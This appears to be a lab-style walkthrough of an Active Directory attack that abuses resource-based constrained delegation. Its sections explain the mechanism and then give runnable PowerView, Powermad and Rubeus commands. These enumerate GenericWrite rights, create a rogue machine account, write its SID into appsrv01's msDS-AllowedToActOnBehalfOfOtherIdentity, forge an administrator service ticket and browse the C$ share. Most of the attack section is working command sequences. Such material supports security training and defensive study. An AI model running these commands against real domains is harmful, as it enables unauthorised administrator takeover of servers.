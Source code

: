 ## Resource Based Constrained Delegation
_SeEnableDelegationPrivilege_ privilege on the domain controller, which is typically only enabled for Domain Admins.
With the release of Windows Server 2012, Microsoft introduced _resource-based constrained delegation_ (RBCD), which is meant to remove the requirement of highly elevated access rights like SeEnableDelegationPrivilege from system administrators.

Once RBCD has been configured, the frontend service can use S4U2Self to request the forwardable TGS for any user to itself followed by S4U2Proxy to create a TGS for that user to the backend service.
Unlike constrained delegation, under RBCD the KDC checks if the SID of the frontend service is present in the _msDS-AllowedToActOnBehalfOfOtherIdentity_ property of the backend service.

## Enumeration
We start our enumeration with powerview:
```powershell
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
The output reveals that the _dave_ user has GenericWrite to appsrv01:

![](../../../Screenshots/gwce-ad.png)

Since we have GenericWrite on appsrv01, we can update any non-protected property on that object, including _msDS-AllowedToActOnBehalfOfOtherIdentity_ and add the SID of a different computer.
Once a SID is added, we will act in the context of that computer account and we can execute the S4U2Self and S4U2Proxy extensions to obtain a TGS for appsrv01

To do this we can start by adding a computer account on object with a selected password with the powermad.ps1 powershell script:
```powershell
Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota
. .\powermad.ps1
New-MachineAccount -MachineAccount h4xcomputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
Get-DomainComputer -Identity h4xComputer
```
(first command lets us enumerate _ms-DS-MachineAccountQuota_)

The _msDS-AllowedToActOnBehalfOfOtherIdentity_ property stores the SID as part of a security descriptor in a binary format. We must convert the SID of our newly-created computer object to the correct format in order to proceed with the attack.
We can do this with the following commands:
```powershell
$sid =Get-DomainComputer -Identity h4xComputer -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"

$SDbytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDbytes,0)

```

After the _SecurityDescriptor_ has been converted to a byte array, we can use Get-DomainComputer to obtain a handle to the computer object for appsrv01 and then pipe that into Set-DomainObject:

```Powershell
Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

After writing the _SecurityDescriptor_ to the property field, we should verify it. We can do this by reading the binary version of it with Get-DomainComputer, then instantiating a _SecurityDescriptor_ object with _RawSecurityDescriptor_ and finally displaying the DACL:
```Powershell
$RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity

$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0

$Descriptor.DiscretionaryAcl

ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-2101
```
(The _SecurityDescriptor_ was indeed set correctly in the _msDS-AllowedToActOnBehalfOfOtherIdentity_ property for appsrv01.)

## The Attack
We can now begin our attack with the conversion of the password into ntlm hash and then using rubeus:
```Powershell
.\Rubeus.exe hash /password:h4x

.\Rubeus.exe s4u /user:h4xcomputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt

```

Thus, the TGT for mycomputer machine account is obtained, forwarded back to KDC (as the administrator user) and finally, the S4U2Proxy is invoked to request a TGS for the file system service on appsrv01 and is injected into memory.

Thus we can interact with the file system with:
```Powershell
dir "\\appsrv01.prod.corp1.com\c$"
```

